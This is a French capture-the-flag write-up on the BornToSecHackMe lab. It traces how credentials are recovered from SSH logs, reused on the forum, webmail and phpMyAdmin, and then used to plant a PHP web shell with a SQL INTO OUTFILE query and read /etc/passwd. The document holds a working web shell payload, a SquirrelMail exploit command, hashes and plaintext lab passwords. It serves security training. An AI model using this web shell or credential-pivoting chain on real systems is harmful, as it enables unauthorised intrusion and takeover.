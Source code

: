 A l'interieur on etudie les logs et on se rend compte que l'utilisateur a du tenter de mettre son mot de passe a la place du login ici :
>Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user **!q\]Ej?*5K5cy*AJ** from 161.202.39.38 port 57764 ssh2

On connait deja son login grace a plusieurs lignes dont celle-ci :

>Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user **lmezard**

- On teste sur le forum, **lmezard / !q\]Ej?*5K5cy*AJ** -> Ca fonctionne.
- On trouve son adresse mail sur son profil **laurie@borntosec.net**

##### /webmail
- SquirrelMail version 1.4.22
- Avec les infos collectees sur le forum on se connecte laurie@borntosec.net / !q\]Ej?*5K5cy*AJ
- On trouve un mail -> You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
**On va pouvoir probablement se connecter a phpmyadmin**
- Faille connue : SquirrelMail <= 1.4.23 Remote Code Execution PoC Exploit (CVE-2017-7692)
``bash /usr/share/exploitdb/exploits/linux/remote/41910.sh https://192.168.31.26/webmail``
-> Ne semble pas fonctionner

##### /phpmyadmin
- Le combo **root / Fg-'kKXBj87E:aJ$** fonctionne

- Dans forum_db, mlf2_settings on obtient la **version de my little forum : 2.3.4**

- Dans forum_db / mlt2_userdata, on a acces aux mots de passe cryptes de tout le monde **-> A VOIR ? ESSAYER DE DECRYPTER EN CHERCHANT DES INFOS SUR LA METHODE DE CRYPTAGE EMPLOYEE PAR CETTE VERSION DE MY LITTLE FORUM**
- En passant lmezard en type 2, il devient admin **-> UTILE ?**
- Dans mysql il y a une table user, avec root / debian-sys-maint avec les mdps en sha1 :
>root / 8A074E30DC25CE94B17C9858F794303F71E3BCC7

-> Il doit probablement correspondre a Fg-'kKXBj87E:aJ$

>debian-sys-maint / 52B24D4192EDDFB439C67E1F92421C4D2D4F5598

- On tente de decrypter les mots de passe, sans succes.

- On va **creer un reverseShell** assez simple en injectant :
``SELECT "<HTML><BODY><FORM METHOD='GET' NAME='myform' ACTION=''><INPUT TYPE='text' NAME='cmd'><INPUT TYPE='submit' VALUE='Send'></FORM><pre><?php if(isset($_GET['cmd'])) { system($_GET['cmd']); } ?> </pre></BODY></HTML>" INTO OUTFILE '/var/www/forum/templates_c/cmd.php'``
- On peut maintenant y acceder ici : https://192.168.31.26/forum/templates_c/cmd.php

----

#### IV - Exploitons le reverse shell

##### Listons les utilisateurs
``cat /etc/passwd`` (voir resulat complet dans le fichier /ressources/users)
Voici les resultats qui semblent interessants :
>root: x:0:0:root:/root:/bin/bash
www-data: x:33:33:www-data:/var/www:/bin/sh
ft_root: x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard: x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net: x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie: x:1003:1003:,,,:/home/laurie:/bin/bash
thor: x:1004:1004:,,,:/home/thor:/bin/bash
zaz: x:1005:1005:,,,:/home/zaz:/bin/bash
